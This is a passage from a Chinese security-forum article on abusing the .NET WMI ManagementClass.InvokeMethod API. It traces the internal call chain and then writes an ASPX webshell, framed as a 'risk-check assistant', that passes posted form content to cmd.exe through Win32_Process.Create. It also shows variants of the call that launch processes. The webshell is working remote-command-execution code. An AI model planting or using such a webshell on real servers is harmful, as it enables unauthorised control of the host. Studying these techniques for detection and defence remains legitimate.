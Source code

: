 ![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-92b719b910b2dd24d82cd5526a2f0cb7f6ecaf5e.png)

整体的调用链大致如下

```php
-> MangementObject.InvokeMethod
-> GetMethodParameters 
-> MapInParameters
-> ManagementBaseObject.setProperyValue 
-> MapValueToWmiValue 
-> ManagementObject.InvokeMethod
-> GetSecuredIWbemServicesHandler.ExecMethod_
-> pWbemServiecsSecurityHelper.ExecMethod_
-> UnmanagedType.CustomMarshaler
-> MarshalWbemObject.MarshalManagedToNative
-> MarshalWbemObject.MarshalNativeToManaged
```

0X05 编写WebShell
===============

为了增强程序的可操作性，笔者改用aspx页面编写风险检查智能助手，同时设计了主机进程、主机信息采集、主机目录文件访问等功能，核心代码和ManagementClassofInvokeMethodCheckSpy.aspx 页面用户体验界面如下

```php
<%@ Assembly  Name="System.Management, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a" %>
Server.ScriptTimeout = 775000;
        if (IsPostBack)
        {
            var content = Request.Form["content"];
            if (!string.IsNullOrEmpty(content))
            {
                string ExecCode = EncodeBase64("utf-8", content);
                ManagementClass processClass = new ManagementClass("\\root\\cimv2:Win32_Process");
                object[] methodArgs = { "cmd.exe " + DecodeBase64("utf-8",ExecCode)};
                object result = processClass.InvokeMethod("Create", methodArgs);
            }

        }
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-69c6fba67ea0a2f86bb928b2682debab6f85478c.png)

上述ManagementClass初始方法还可以指定WMI命名空间root\\cimv2的方式调用Create方法

```php
ManagementClass processClass = new ManagementClass("\\root\\cimv2:Win32_Process");
object[] methodArgs = { "calc.exe" };
object result = processClass.InvokeMethod("Create", methodArgs);
```

InvokeMethod还提供了两个带有ManagementOperationObserver类的重载方法，用于管理异步接收的管理信息和事件，在代码中直接实例化该对象

```php
ManagementClass processClass = new ManagementClass("\\root\\cimv2:Win32_Process");
object[] methodArgs = { "calc.exe" };
processClass.InvokeMethod(new ManagementOperationObserver(), "Create", methodArgs);
```
